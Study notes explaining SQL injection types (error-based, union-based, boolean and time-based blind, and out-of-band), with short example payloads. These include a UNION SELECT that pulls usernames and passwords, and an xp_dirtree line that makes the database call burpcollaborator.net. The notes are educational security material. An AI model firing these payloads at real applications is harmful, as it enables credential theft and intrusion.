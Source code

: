 **SQL Injection** - Vulnerability that consists of an attacker interfering with the SQL queries that an application makes to a database.
\
**Impact:**
	**Unauthorized access to sensitive data**
		- ***C**onfidentiality* - SQLi can be used to view sensitive information, such as application usernames and passwords
		- ***I**ntegrity* - SQLi can be used to alter data in the database
		- ***A**vailability* - SQLi can be used to delete data in the database
	**Remote code execution on the operating system**

**Types of SQL Injections** :
	\ 
		**In-Band**:
			- *Error* - Techniqe where you force the databe to generate an error giving information how things operate at the backend.
			- *Union* -  Techniqe that leverages the union operator to combine the results of 2 queries into a single result set.
		**Inferential**:
			- Boolean - Asking the database true or false questions.
			- Time - Causing the database to pause for specified time.
		**Out-of-Band** 
			Occurs when the attacker is unable to use the same channel to launch the attack and gather the results of the attack. Usually relies on the ability of the application to make a network connection.

**Deep dive into the types of SQLi**:
	**In-Band SQLi**:
		- In-band SQLi occurs when the attacker uses the same communication channel to both launch the attack and gather the result of the attack.
		\ 
		- Retrieved data is presented directly in the application web page.
		\ 
		- Easier to exploit than other categories of SQLi
		\ 
		- Two common types of in-band SQLi
			- **Error-based SQLi** 
				- Error-based SQLi is an in-band SQLi technique that forces the database to generate an error, giving the attacker information upon which to refine their injection.
				\ 
				- Example: 
					- **Input**: *blahblah.sth?id='*
					\ 
					- **Output**: *You have an error in your SQL sytax, check the manual that corresponds to your MySQL server version…*
					\ 
			- **Union-based SQLi**
				- Union-based SQLI is an in-band SQLi technique that leverages the UNION SQL operator to combine the results of two queries into a single result set.
				- Example:
					- **Input**: *blahblah.sth?id=' UNION SELECT username, password FROM users--*
					\
					- **Output**: 
						- carlos
						- admin
						- Alex
	**Inferential SQLi**:
		- SQLi vulnerability where there is no actual transfer of data via the web application.
		\ 
		- Just as dangerous as in-band SQL injection.
		\ 
		- Attacker able to reconstruct the information by sending particular requests and observingthe resulting behavior of the DB Server.
		\ 
		- Takes longer to exploit than in-band SQL injection.
		\ 
		- Two common types of blind SQLi:
			- **Boolean-based SQLi**:
				- Boolean-based SQLi is a blind SQLi technique that uses Boolean conditions to return a different result depending on whether the query returns a TRUE or FALSE result.
				\
			- **Time-based SQLi**:
				- Time-based SQLi is a blind SQLi technique that relies on the database pausing for a specified amount of time, then returning the results, indicating a successful SQL query execution.
			\ 
				- Example:
					- If the first character of the administrator’s hashed password is an ‘a’, wait for 10 seconds.
						 → response takes 10 seconds → first letter is ‘a’ 
						 \ 
						 → response doesn’t take 10 seconds → first letter is not ‘a’
	**Out-of-Band SQLi**:
		- Vulnerability that consists of triggering an out-of-band network connection to a system that you control.
		\ 
		- Not common.
		\ 
		- A variety of protocols can be used (ex. DNS, HTTP)
		\ 
		- Example:
			- *'; exec master..xp_dirtree '//burpcollaborator.net/a'--*
